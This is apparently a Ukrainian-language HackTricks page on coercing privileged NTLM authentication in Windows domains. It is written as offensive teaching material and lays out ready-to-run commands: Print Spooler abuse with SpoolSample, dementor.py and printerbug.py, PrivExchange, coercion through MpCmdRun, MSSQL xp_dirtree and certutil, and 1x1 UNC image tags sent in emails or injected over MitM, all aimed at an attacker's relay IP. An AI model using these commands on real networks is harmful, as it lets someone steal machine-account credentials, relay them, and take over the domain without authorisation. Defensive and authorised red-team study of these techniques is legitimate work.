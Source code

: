# Примусова NTLM Привілейована Аутентифікація

{% hint style="success" %}
Вивчайте та практикуйте AWS Хакінг:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Хакінг: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримати HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, подаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на GitHub.

</details>
{% endhint %}

## SharpSystemTriggers

[**SharpSystemTriggers**](https://github.com/cube0x0/SharpSystemTriggers) - це **колекція** **тригерів віддаленої аутентифікації**, написаних на C# з використанням компілятора MIDL для уникнення залежностей від сторонніх розробників.

## Зловживання Службою Спулера

Якщо служба _**Print Spooler**_ **увімкнена**, ви можете використовувати деякі вже відомі облікові дані AD, щоб **запросити** у серверу друку контролера домену **оновлення** нових друкованих завдань і просто сказати йому **надіслати сповіщення на якусь систему**.\
Зверніть увагу, що коли принтер надсилає сповіщення на довільні системи, йому потрібно **аутентифікуватися** проти цієї **системи**. Тому зловмисник може змусити службу _**Print Spooler**_ аутентифікуватися проти довільної системи, і служба **використає обліковий запис комп'ютера** в цій аутентифікації.

### Пошук Windows Серверів у домені

Використовуючи PowerShell, отримайте список Windows машин. Сервери зазвичай є пріоритетними, тому зосередимося на них:
```bash
Get-ADComputer -Filter {(OperatingSystem -like "*windows*server*") -and (OperatingSystem -notlike "2016") -and (Enabled -eq "True")} -Properties * | select Name | ft -HideTableHeaders > servers.txt
```
### Finding Spooler services listening

Використовуючи трохи модифікований @mysmartlogin's (Vincent Le Toux's) [SpoolerScanner](https://github.com/NotMedic/NetNTLMtoSilverTicket), перевірте, чи слухає служба Spooler:
```bash
. .\Get-SpoolStatus.ps1
ForEach ($server in Get-Content servers.txt) {Get-SpoolStatus $server}
```
Ви також можете використовувати rpcdump.py на Linux і шукати протокол MS-RPRN.
```bash
rpcdump.py DOMAIN/USER:PASSWORD@SERVER.DOMAIN.COM | grep MS-RPRN
```
### Запросіть службу аутентифікацію проти довільного хоста

Ви можете скомпілювати[ **SpoolSample звідси**](https://github.com/NotMedic/NetNTLMtoSilverTicket)**.**
```bash
SpoolSample.exe <TARGET> <RESPONDERIP>
```
або використовуйте [**3xocyte's dementor.py**](https://github.com/NotMedic/NetNTLMtoSilverTicket) або [**printerbug.py**](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py), якщо ви на Linux
```bash
python dementor.py -d domain -u username -p password <RESPONDERIP> <TARGET>
printerbug.py 'domain/username:password'@<Printer IP> <RESPONDERIP>
```
### Поєднання з неконтрольованою делегацією

Якщо зловмисник вже скомпрометував комп'ютер з [неконтрольованою делегацією](unconstrained-delegation.md), зловмисник може **змусити принтер аутентифікуватися на цьому комп'ютері**. Через неконтрольовану делегацію **TGT** облікового запису **комп'ютера принтера** буде **збережено в** **пам'яті** комп'ютера з неконтрольованою делегацією. Оскільки зловмисник вже скомпрометував цей хост, він зможе **отримати цей квиток** і зловживати ним ([Pass the Ticket](pass-the-ticket.md)).

## RCP Примусова аутентифікація

{% embed url="https://github.com/p0dalirius/Coercer" %}

## PrivExchange

Атака `PrivExchange` є наслідком вразливості, виявленої в **функції `PushSubscription` Exchange Server**. Ця функція дозволяє серверу Exchange бути примушеним будь-яким доменним користувачем з поштовою скринькою аутентифікуватися на будь-якому хості, наданому клієнтом, через HTTP.

За замовчуванням **служба Exchange працює як SYSTEM** і має надмірні привілеї (зокрема, вона має **привілеї WriteDacl на домен до 2019 Cumulative Update**). Цю вразливість можна експлуатувати для активації **пересилання інформації до LDAP і, відповідно, витягнення бази даних домену NTDS**. У випадках, коли пересилання до LDAP неможливе, цю вразливість все ще можна використовувати для пересилання та аутентифікації на інших хостах у домені. Успішна експлуатація цієї атаки надає негайний доступ до адміністратора домену з будь-яким аутентифікованим обліковим записом домену.

## Всередині Windows

Якщо ви вже всередині машини Windows, ви можете змусити Windows підключитися до сервера, використовуючи привілейовані облікові записи за допомогою:

### Defender MpCmdRun
```bash
C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2010.7-0\MpCmdRun.exe -Scan -ScanType 3 -File \\<YOUR IP>\file.txt
```
### MSSQL
```sql
EXEC xp_dirtree '\\10.10.17.231\pwn', 1, 1
```
Або використовуйте цю іншу техніку: [https://github.com/p0dalirius/MSSQL-Analysis-Coerce](https://github.com/p0dalirius/MSSQL-Analysis-Coerce)

### Certutil

Можливо використовувати certutil.exe lolbin (підписаний Microsoft бінарний файл) для примусу NTLM аутентифікації:
```bash
certutil.exe -syncwithWU  \\127.0.0.1\share
```
## HTML injection

### Via email

Якщо ви знаєте **адресу електронної пошти** користувача, який входить у систему на машині, яку ви хочете скомпрометувати, ви можете просто надіслати йому **електронний лист з зображенням 1x1** таким як
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
і коли він його відкриє, він спробує аутентифікуватися.

### MitM

Якщо ви можете виконати атаку MitM на комп'ютер і вставити HTML на сторінку, яку він буде переглядати, ви можете спробувати вставити зображення, подібне до наступного, на сторінку:
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
## Злом NTLMv1

Якщо ви можете захопити [виклики NTLMv1, читайте тут, як їх зламати](../ntlm/#ntlmv1-attack).\
_Пам'ятайте, що для зламу NTLMv1 вам потрібно встановити виклик Responder на "1122334455667788"_

{% hint style="success" %}
Вчіться та практикуйте AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Вчіться та практикуйте GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримати HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на GitHub.

</details>
{% endhint %}
